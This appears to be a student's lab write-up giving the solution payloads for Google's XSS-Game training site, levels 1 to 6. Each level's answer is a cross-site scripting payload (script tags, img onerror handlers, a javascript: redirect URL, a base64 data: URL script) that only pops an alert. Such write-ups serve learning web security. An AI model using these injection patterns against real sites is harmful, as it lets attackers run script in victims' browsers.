 # XSS-Game by Google
<a href="https://github.com/NicolaiKuertoes/swa-writeups/tree/master/swa_prakt6#swa---praktikum-6">&larr; zurück</a>
### Level 1
```
https://xss-game.appspot.com/level1/frame?query=<script>alert("HACKED")</script>
```

### Level 2
```
<img src="asdf" onerror='alert("HACKED")'/>
```

### Level 3
```
https://xss-game.appspot.com/level3/frame/#"/><img src='asdf' onerror='alert("HACKED")'/>
```

### Level 4
```
'**alert("HACKED"));//
?timer=%27**alert%28%22HACKED%22%29%29%3B%2F%2F
```

### Level 5
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()
```
### Level 6
```
base64(alert("HACKED");) => "YWxlcnQoIkhBQ0tFRCIpOw=="
https://xss-game.appspot.com/level6/frame#data:text/javascript;base64,YWxlcnQoIkhBQ0tFRCIpOw==
```
